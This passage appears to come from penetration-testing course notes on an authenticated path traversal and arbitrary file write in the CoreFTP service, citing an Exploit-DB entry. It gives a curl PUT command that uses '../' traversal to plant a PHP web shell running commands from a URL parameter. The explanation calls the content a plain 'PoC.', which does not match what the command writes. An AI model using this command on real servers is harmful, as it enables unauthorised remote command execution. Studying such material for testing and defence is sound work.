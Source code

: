 https://www.exploit-db.com/exploits/50652
## Authenticated Path Traversal & Arbitrary File Write
This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files.

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "<?php system(\$_GET['cmd']) ?> " --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system